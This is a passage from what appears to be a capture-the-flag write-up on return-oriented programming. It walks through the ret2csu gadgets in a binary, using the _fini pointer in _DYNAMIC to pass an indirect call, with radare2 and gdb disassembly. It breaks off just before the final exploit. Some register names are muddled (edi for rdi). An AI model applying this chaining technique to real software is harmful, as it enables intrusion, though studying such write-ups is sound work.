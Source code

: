 Based on the above, if I returned to 0x004010ee, I could pop values into registers r13, r14, and r15. I could then return to 0x004010d0, which would copy the values from registers r13, r14, and r15, into registers rdx, rsi, and edi respectively. Once rdi, rsi, and edi are populated, execution continues until it reaches the ret instruction. In order to get there, the two hurdles pointed out above need to be overcome. 

Hurdle #1 is a call to a function pointer. 

```
|      ||   0x004010d9    41ff14dc       call qword [r12 + rbx*8]
```

I control both r12 and rbx, so I can control which function pointer gets called. _fini() is a good choice. Here's what it looks like:

```
[0x00400a00]> pdf@sym._fini
/ (fcn) sym._fini 9
|           ;-- section..fini:
|           0x00401104    4883ec08       sub rsp, 8 
|           0x00401108    4883c408       add rsp, 8
\           0x0040110c    c3             ret
```

\_fini() is at 0x00401104 and a pointer to it can be found in &\_DYNAMIC:

```
gdb-peda$ x/11wx &_DYNAMIC 
0x6015d0:   0x00000001  0x00000000  0x00000001  0x00000000
0x6015e0:   0x0000000c  0x00000000  0x00400848  0x00000000
0x6015f0:   0x0000000d  0x00000000  0x00401104  <--- here's _fini()
```

The pointer to _fini() is at 0x6015f8. Just to make sure: 

```
gdb-peda$ x/3i *0x6015f8
   0x401104 <_fini>:    sub    rsp,0x8
   0x401108 <_fini+4>:  add    rsp,0x8
   0x40110c <_fini+8>:  ret
```

So to overcome this first hurdle, I just had to set r12 to 0x6015f8, and rbx to 0. 

Hurdle #2 is much easier to overcome. I just need to make sure rbx and rbp are equal:

```
|      ||   0x004010dd    4883c301       add rbx, 1
|      ||   0x004010e1    4839eb         cmp rbx, rbp
|      `==< 0x004010e4    75ea           jne 0x4010d0                 
|       `-> 0x004010e6    4883c408       add rsp, 8
```

I control both rbx and rbp, so I just set rbx to 0, and rbp to 1. By the time the comparison is made, both registers equal to 1. 

After both hurdles are passed, the sequence of pop instructions that populate r13, r14, and r15 are called again. I took this opportunity to fill them with the proper values to be copied to rdx, rsi, and edi for the next function call to be chained. Here's the final exploit:
